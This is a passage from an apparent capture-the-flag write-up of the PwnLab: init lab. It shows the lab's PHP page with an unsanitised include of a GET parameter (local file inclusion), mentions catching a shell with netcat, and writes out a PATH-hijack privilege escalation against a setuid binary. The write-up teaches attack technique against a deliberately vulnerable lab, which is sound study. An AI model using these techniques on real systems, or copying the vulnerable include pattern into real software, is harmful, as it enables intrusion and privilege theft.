 ```php
<img src="images/pwnlab.png"><br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ]
<hr/><br/>
<?php
	if (isset($_GET['page']))
	{
		include($_GET['page'].".php");
	}
	else
	{
		echo "Use this server to upload and share image files inside the intranet";
	}
?>
</center>
</body>
</html>
```
find out cookie also have LFI.


first verify the LFI

{% img  /images/blog/vulhub/pwnlab_init/Selection_016.png   [title manually exploit [alt text]] %}


{% img  /images/blog/vulhub/pwnlab_init/Selection_017.png   [title manually exploit [alt text]] %}

now setup netcat on port 443


{% img  /images/blog/vulhub/pwnlab_init/Selection_018.png   [title manually exploit [alt text]] %}

get the shell

{% img  /images/blog/vulhub/pwnlab_init/Selection_019.png   [title manually exploit [alt text]] %}

login in as kane

`su kane`

find an interesting file msgmike


`ls -alh msgmike`

its seuid is set.

try to run it 

`./msgmike`

shows `cat: /home/mike/msg.txt: No such file or directory`


try to escape it

```
export PATH=.:$PATH
echo "/bin/bash" > cat
chmod +x cat
./msgmike
```
now escape to user mike.
